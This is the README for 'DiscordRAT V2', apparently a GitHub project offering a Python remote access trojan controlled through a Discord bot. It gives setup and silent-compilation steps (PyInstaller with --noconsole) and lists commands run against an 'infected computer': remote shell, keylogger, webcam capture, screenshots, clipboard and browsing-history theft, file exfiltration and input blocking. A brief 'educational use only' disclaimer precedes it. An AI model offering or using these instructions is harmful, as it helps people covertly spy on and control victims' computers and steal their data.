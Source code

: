 # DiscordRAT V2
Discord Remote Administration Tool fully written in Python3.

This is a RAT controlled over Discord with over 20 post exploitation modules.

## **Disclaimer:**

This tool is for educational use only, the author will not be held responsible for any misuse of this tool.

## **Setup Guide:**
You will first need to register a bot with the Discord developper portal and then add the bot to the server that you want (make sure bot has administrator privileges).
Once the bot is created copy the token of your bot and paste it at line 17.

Install requirements :
```
pip3 install -r requirements.txt
```
Then if steps above were succesful after launching the python file by doing ```python DiscordRAT``` , or launching the executable , it will create a new channel and post a message on the server with a generated session number.\
Now your bot should be available to use !

**Requirements:**\
Python3,Windows(x64)

**Compiling to exe (optional):**\
If you want to compile the bot to exe you can use PyInstaller.\
Inside the directory of the bot execute
```
PyInstaller --onefile --noconsole DiscordRAT.py
```
Or
```
python3 -m PyInstaller --onefile --noconsole "DiscordRAT.py"
```
If an error occured during compiling try to import the discord module
```
PyInstaller --onefile --noconsole --hidden-import=discord DiscordRAT.py
```

## **Modules**
```
Availaible commands are :
--> !message = Show a message box displaying your text / Syntax = "!message example"
--> !shell = Execute a shell command /Syntax = "!shell whoami"
--> !webcampic = Take a picture from the webcam
--> !windowstart = Start logging current user window (logging is shown in the bot activity)
--> !windowstop = Stop logging current user window
--> !voice = Make a voice say outloud a custom sentence / Syntax = "!voice test"
--> !admincheck = Check if program has admin privileges
--> !sysinfo = Gives info about infected computer
--> !history = Get computer navigation history
--> !download = Download a file from infected computer
--> !upload = Upload file from website to computer / Syntax = "!upload file.png" (with attachment)
--> !cd = Changes directory
--> !write = Type your desired sentence on infected computer
--> !wallpaper = Change infected computer wallpaper / Syntax = "!wallpaper" (with attachment)
--> !clipboard = Retrieve infected computer clipboard content
--> !geolocate = Geolocate computer using latitude and longitude of the ip adress with google map / Warning : Geolocating IP adresses is not very precise
--> !startkeylogger = Starts a keylogger / Warning : Likely to trigger AV
--> !stopkeylogger = Stops keylogger
--> !dumpkeylogger = Dumps the keylog
--> !volumemax = Put volume at 100%
--> !volumezero = Put volume at 0%
--> !idletime = Get the idle time of user's on target computer
--> !sing = Play chosen video in background
--> !stopsing = Stop video playing in background
--> !blockinput = Blocks user's keyboard and mouse / Warning : Admin rights are required
--> !unblockinput = Unblocks user's keyboard and mouse / Warning : Admin rights are required
--> !screenshot = Get the screenshot of the user's current screen
--> !exit = Exit program
--> !kill = Kill a session or all sessions except current one / Syntax = "!kill session-3" or "!kill all"
```
## **Advice:**
If you have problems with the installation of win32api or other modules , try installing it in a python virtual environment.\
Please avoid opening issues about module related errors as it is caused by your python installation and not a problem inherent of DiscordRAT.\
If you encounter "AttributeError: module 'enum' has no attribute 'IntFlag'" while compiling to Pyinstaller please do :
```
pip uninstall enum34
```




























